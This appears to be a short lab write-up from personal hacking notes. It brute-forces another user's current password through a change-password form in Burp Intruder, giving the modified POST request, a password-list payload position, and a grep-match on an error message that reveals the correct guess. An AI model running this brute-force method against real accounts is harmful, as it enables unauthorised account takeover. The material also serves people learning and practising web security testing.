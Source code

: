 ```bash
Go to: HTTP history

POST /my-account/change-password HTTP/1.1

username=wiener&current-password=peter2&new-password-1=1234&new-password-2=1234567

Send to intruder

username=carlos&current-password=§peter2§&new-password-1=1234&new-password-2=1234567
![[Pasted image 20220511000225.png]]
Go to: Payloads
Insert the password list
Go to: Options -> Grep - Match -> Add
"New passwords do not match"
Start attack
There should be one returned password with the above "Grep - Match" search

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220511003753.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220511003728.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220511003852.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220511003609.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220511003634.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220511003652.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220511003931.png)

#hacking
